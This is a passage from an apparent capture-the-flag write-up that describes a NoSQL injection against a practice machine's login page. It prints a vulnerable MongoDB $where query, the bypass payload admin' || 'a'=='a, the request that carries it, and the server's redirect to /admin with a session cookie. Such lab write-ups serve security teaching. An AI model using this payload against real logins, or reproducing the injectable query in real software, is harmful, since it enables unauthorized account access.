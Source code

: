 Rending this response shows an error trace:

![](/img/image-20230111175234942.png)

It doesn't like the `$` character, and it's at the JSON parsing level,
before it gets to a potential DB call. Seems like a deadend there. But I
did leak some interesting information:

-   Username on box jaeger
-   App is running out of `/home/jaeger/ShoppyApp`

Neither of these end up important to getting a foothold, but this is the
kind of information that could be useful in general.

#### NoSQL Injection Success

There's a method of attacking NoSQL queries that looks much more like
SQL injection which I find in [this
article](https://nullsweep.com/a-nosql-injection-primer-with-mongo/)
from Null Sweep. I wanted to try the tool described in this post
([nosqli](https://github.com/Charlie-belmer/nosqli)), but the hang when
sending many payloads causes the tool to fail.

At the bottom of the article, they give this example:



    let username = req.query.username;
    query = { $where: `this.username == '${username}'` }
    User.find(query, function (err, users) {
            if (err) {
                    // Handle errors
            } else {
                    res.render('userlookup', { title: 'User Lookup', users: users });
            }
    });



And they show how they can get all the users with `' || 'a'=='a`.

I like to try payloads like this in the `username` field, since
hopefully the password field is going to be hashes before it is used.
Going back to this payload (and seeing `Content-Type` back to
`application/x-www-form-urlencoded`):



    username=admin' || 'a'=='a&password=admin



Results in:



    HTTP/1.1 302 Found
    Server: nginx/1.23.1
    Date: Wed, 11 Jan 2023 23:00:49 GMT
    Content-Type: text.md; charset=utf-8
    Content-Length: 56
    Connection: close
    Location: /admin
    Vary: Accept
    Set-Cookie: connect.sid=s%3AReILweHHX4bMBcDk4TiDrE3ATGvqbBnT.1x8gE%2Fp%2FM79FzOS6DQvwdmngxdyyyvT637dxIsReuZQ; Path=/; HttpOnly
